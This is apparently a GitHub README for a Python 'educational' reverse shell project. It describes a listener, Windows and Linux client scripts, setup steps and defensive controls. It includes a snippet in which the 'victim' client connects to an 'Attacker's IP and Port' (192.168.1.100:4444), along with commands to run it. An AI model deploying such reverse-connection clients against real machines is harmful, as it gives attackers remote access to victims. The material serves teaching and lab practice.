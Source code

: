 <!-- Badges (replace with real links if desired) -->

[![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](#license)
[![Language: Python](https://img.shields.io/badge/Language-Python-green.svg)](#project-structure)
[![Status: Educational](https://img.shields.io/badge/Status-Educational-orange.svg)](#abstract)

# 🐍 Webixly Reverse Shell — Educational Cybersecurity Project

**Author:** Aymen (Webixly)
**Repository:** Webixly-Reverce
**License:** MIT (see `LICENSE`)

---

## 📚 Table of Contents

1. [Abstract](#abstract)
2. [Overview](#overview)
3. [Project Structure](#project-structure)
4. [Design & Implementation](#design--implementation)
5. [Configuration (CHANGE IP)](#configuration-change-ip)
6. [Usage (Lab / Controlled Environment Only)](#usage-lab--controlled-environment-only)
7. [Defensive Guidance](#defensive-guidance)
8. [Academic & Ethical Considerations](#academic--ethical-considerations)
9. [Contribution & Citation](#contribution--citation)
10. [License](#license)
11. [Contact](#contact)

---

## Abstract

This repository contains a safe, educational simulation of the *reverse shell* concept intended for academic use and cybersecurity instruction. The implementation demonstrates basic client–server network mechanics while intentionally limiting functionality to a small set of predefined, non-destructive commands. The objective is to help students and researchers understand reverse-connection patterns and to illustrate defensive practices to mitigate their misuse.

> ⚠️ **Warning:** This project is for authorized educational use only. Do **not** run or deploy these examples against systems or networks for which you do not have explicit permission. Unauthorized use is illegal and unethical.

---

## Overview

A *reverse shell* is a technique in which a target host initiates an outbound connection to an external listener, enabling command exchange over that channel. While used legitimately in penetration testing and red-team exercises, reverse shells are also abused by attackers. This repository models the connection pattern safely — the server executes only a whitelist of Python handlers (no arbitrary OS shell commands).

---

## Project Structure

```
.
├── LICENSE
├── README.md
├── listner.py             # Server-side command dispatcher (listener)
├── windows_reverce.py     # Example client for Windows (simulated)
├── linux_reverce.py       # Example client for Linux (simulated)
├── requirements.txt       # Optional dependencies (if any)
└── .gitignore
```

> 🔧 Adjust filenames above to match your repository if they differ.

---

## Design & Implementation

### Server (listener / `listner.py`)

* Listens for incoming TCP connections on a configurable address and port.
* Accepts JSON-formatted requests such as:

```json
{"token": "<auth-token>", "cmd": "time", "args": {}}
```

* Validates an authentication token (optional but recommended).
* Dispatches only to a predefined, safe set of handlers (e.g., `hello`, `time`, `sysinfo`).
* Uses newline-terminated JSON for message framing to avoid partial-read ambiguities.
* Logs events using a structured logger (recommended).

### Client (`windows_reverce.py`, `linux_reverce.py`, `client_example.py`)

* Establishes an outbound TCP connection to the configured listener.
* Sends framed JSON requests and reads framed JSON responses.
* Intended exclusively for demonstration in a controlled lab environment.

### Security Decisions

* **No arbitrary shell execution**: prevents the repository from becoming a fully functional remote shell.
* **Message framing & size checks**: prevent partial-read issues and limit resource consumption.
* **Optional TLS**: recommended for any use outside isolated labs (`ssl.wrap_socket` / `ssl.SSLContext`).
* **Authentication token**: recommended to prevent unauthorized access in multi-user networks.

---

## Configuration (CHANGE IP)

> 🔁 **Important:** Before running any client (victim) script, you **must** update the target listener IP address (`HOST`) and, if used, the `PORT`. Failure to set the correct listener IP will cause the client to attempt to connect to the wrong host.

Open the client script you intend to run (`windows_reverce.py`, `linux_reverce.py`, or `client_example.py`) and locate the `HOST`/`PORT` variables near the top of the file. Example:

```python
# windows_reverce.py (example snippet)
s.connect(("192.168.1.100", 4444))  <<==# Attacker's IP and Port 
```

**Steps**

1. Find the `HOST` variable and replace the placeholder with your listener/server IP (e.g., `192.168.10.128`).
2. Ensure `PORT` matches the port configured in `listner.py`.
3. Save the file and transfer it only to your controlled lab machine (if testing across VMs).

> 🔒 Tip: For lab automation, you can use environment variables instead of hardcoding:

```python
HOST = '192.168.10.128' # Attacker's IP address
PORT = 4444 # Attacker's listening port
```

This allows running:

```bash
REVERSE_HOST=192.168.10.128 REVERSE_PORT=4444 python3 windows_reverce.py
```

---

## Usage (Lab / Controlled Environment Only)

1. Create an isolated test environment (local VMs, isolated VLAN, or a single host with loopback testing).
2. Start the listener (on the host where `listner.py` runs):

```bash
python3 listner.py
```

3. On the test client machine (after updating `HOST` to point to the listener):

```bash

python3 windows_reverce.py
# or
python3 linux_reverce.py
```

> 🧪 Always operate within an environment you control. Do not run these scripts on production systems or public networks.

---

## Defensive Guidance

System administrators, students, and researchers should adopt the following controls to reduce the risk of reverse-shell exploitation:

* **Egress filtering:** restrict outbound connections by default; allow only required destinations and ports.
* **Host hardening:** enforce least privilege, disable interpreters where unnecessary, and use application allowlisting.
* **Network monitoring:** detect anomalous outbound connections (to uncommon ports or foreign hosts).
* **Endpoint detection:** use EDR/NDR solutions to identify process behaviors consistent with reverse shells.
* **Code review:** audit third-party and internal code for unsafe socket or subprocess usage.

---

## Academic & Ethical Considerations

This repository is intended for coursework, labs, and research under authorized conditions. Any unauthorized testing, scanning, or exploitation of systems you do not own or have permission to test is illegal. If you discover a vulnerability during legitimate testing, follow established responsible disclosure procedures.

---

## Contribution & Citation

Contributions that enhance the educational value (improved documentation, safe lab exercises, additional safe handlers) are welcome via issues or pull requests. If you cite this repository in academic work, please reference:

> A. (Aymen, Webixly), *Webixly Reverse Shell — Educational Cybersecurity Project*, GitHub repository, [https://github.com/webixly/Webixly-reverce](https://github.com/webixly/Webixly-reverce), 2025.

---

## License

This project is offered under the **MIT License**. See the `LICENSE` file for full terms.

---

## Contact

**Aymen (Webixly)**
GitHub: [https://github.com/webixly](https://github.com/webixly)
Email: [webiixly@gmail.com](mailto:webiixly@gmail.com)
